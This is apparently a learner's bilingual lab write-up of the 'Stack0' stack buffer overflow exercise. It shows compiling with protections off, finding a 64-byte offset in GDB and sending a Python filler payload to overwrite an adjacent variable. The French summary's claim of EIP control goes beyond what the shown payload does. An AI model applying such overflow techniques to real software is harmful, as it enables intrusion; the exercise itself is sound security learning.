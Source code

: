 # Explanation

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```
![Breakpoint](Images/BreakPointGets.png)

- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified     
```
![Disas](Images/GDBdisas.png)

This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&modified - (char*)&buffer #will find exact offset
64
```
![Offset](Images/OffsetStack0.png)

7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```
![Success](Images/Success.png)


# What I learned

- A basic stack-based buffer overflow can redirect execution with just user-supplied data—no need for advanced tricks.
- The magic number here is 64 bytes.
- GDB’s basics—disas, info registers, simple breakpoints—are enough to prove the takeover.
- Turning off modern flags (-fno-stack-protector, -z execstack, etc.) lets you see the raw bug in action.

# Ce que j’ai appris

- Un simple overflow sur la pile suffit à détourner le flux d’exécution ; pas besoin de gadgets sophistiqués.
- **64 octets** exactement : c’est la distance qui me donne la main sur EIP.
- Trois commandes GDB — `disas`, `break`, `info reg` — et le contrôle est évident.
- En désactivant les protections (`-fno-stack-protector`, `-z execstack`, `-no-pie`), on voit la vulnérabilité à l’état brut.
